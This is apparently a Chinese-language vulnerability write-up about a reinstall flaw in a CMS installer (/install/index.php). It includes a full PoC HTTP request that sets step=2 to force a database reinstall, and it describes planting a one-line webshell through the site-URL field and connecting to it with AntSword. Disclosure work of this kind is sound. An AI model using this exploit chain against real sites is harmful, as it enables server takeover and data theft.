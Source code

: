 ​                                                                  系统重装漏洞

路由地址： /install/index.php  

找到可控变量$step，其中以POST数据提交

![img](images/图片1.png)

继续往下看发现step 为1,2,3,4，分别进入不同的php页面
![img](images/图片2.png)

![img](images/图片3.png)

在step_2.php文件中发现step=2时，可以进入该页面

![img](images/图片4.png)

尝试burp提交数据2,3,4

![img](images/图片5.png)

![img](images/图片6.png)

 

 

 

![img](images/图片7.png)

 

发现step=4时，结果为非法提交，然后从step=2，抓取进入数据按照页面，发现验证token

![img](images/图片8.png)

Poc：

POST /install/index.php HTTP/1.1

Host: zz.cms

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Content-Type: application/x-www-form-urlencoded

Cookie: PHPSESSID=l68f4rbt3n55lbrle4f531ba35

Connection: close

 

step=2



![img](images/图片9.png)

可以重装数据库

![img](images/图片10.png)

同时，发现填写数据库的信息是部分可控制的

![img](images/图片11.png)

发现如果更改框选部分内容，根据上面是无法连接数据库的，所以只能控制网站链接
![img](images/图片12.png)

在网站访问网址地址这一栏加入一句话木马

![img](images/图片13.png)

 

查看代码，发现一句话木马写入成功

![img](images/图片14.png)

使用蚁剑进行连接，链接成功

![img](images/图片15.png)

 

查看文件

![img](images/图片16.png)
